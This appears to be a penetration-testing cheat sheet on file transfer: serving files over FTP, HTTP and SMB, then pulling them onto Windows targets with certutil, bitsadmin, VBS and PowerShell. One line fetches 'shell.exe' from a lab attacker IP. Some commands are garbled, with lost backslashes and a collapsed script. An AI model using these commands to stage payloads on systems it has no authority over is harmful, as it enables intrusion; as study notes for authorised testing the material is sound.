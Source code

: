# Serve

### FTP 
````
Python –c pyftpdlib –p 21 –write
````

### HTTP 
````
sudo python3 -m http.server 80 
sudo python -m SimpleHTTPServer 80 
````

### SMB 
````
sudo impacket-smbserver <sharename> <share path>
````


# Client 
### From Windows 

FTP Upload / Download 
````
echo "open <IP> ">ftp.txt
echo "user">>ftp.txt
echo "pass">>ftp.txt
echo "bin">>ftp.txt
echo "get file.exe">>ftp.txt
echo "put file.exe">>ftp.txt
echo "bye">>ftp.txt

ftp -s ftp.txt
````

HTTP  Download 
````
certutil -urlcache -f http://10.10.14.12:8000/shell.exe shell.exe 
bitsadmin /transfer n http://domain/file c:%homepath%file

VBS
Set args = Wscript.Arguments Url = "http://domain/file" dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: Set bStrm = createobject("Adodb.Stream") xHttp.Open "GET", Url, False xHttp.Send with bStrm     .type = 1 '     .open     .write xHttp.responseBody     .savetofile " C:%homepath%file", 2 ' end with
C:>cscript test.vbs
Check lab guide for script 

Powershell 
$p = New-Object System.Net.WebClient $p.DownloadFile("http://domain/file" "C:%homepath%file")
PS C:> .test.ps1
````

SMB Upload / Download 
````
copy \\IP-address\share\x x 
net view \\<ip>
net use x: \127.0.0.1share /user:example.comuserID myPassword

````


### From Linux 

wget 
curl
python
perl
ruby

````

